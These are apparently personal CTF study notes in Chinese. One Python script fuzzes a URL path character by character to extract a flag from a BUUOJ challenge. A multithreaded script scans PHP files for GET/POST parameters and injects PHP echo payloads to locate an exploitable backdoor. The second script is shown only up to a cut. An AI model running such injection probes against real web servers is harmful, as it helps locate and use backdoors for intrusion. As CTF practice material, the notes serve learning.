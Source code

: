 ```python
# 别的师傅fuzz的脚本
import requests
import re

for i in range(0,255):
    url ='xxxxx.node3.buuoj.cn/index.php/config.php/{}?source'.format(chr(i))
    print(url)
    r = requests.get(url)
    flag = re.findall("flag\{.*?\}", r.text)
    if flag:
        print(flag)
        break
```



## 2021.9.16

又捡起来了

### [强网杯 2019]高明的黑客

考验脚本编写能力，之前一直说学多线程，不过一直没学哈哈

试着写了一下，最后还是用其他师傅的脚本，人传人也不懂出自何处了

```python
import os
import requests
import re
import threading
import time

print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)                                            #这儿设置最大的线程数
filePath = r"D:/environment/phpstudy_pro/WWW/src"
os.chdir(filePath)                                                    #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                                #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                             # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                            #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                                        #所有的$_POST
    params = {}                                                        #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)            #一次性请求所有的GET和POST
    req.close()                                                # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                                    #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                                # 关闭请求  释放内存
```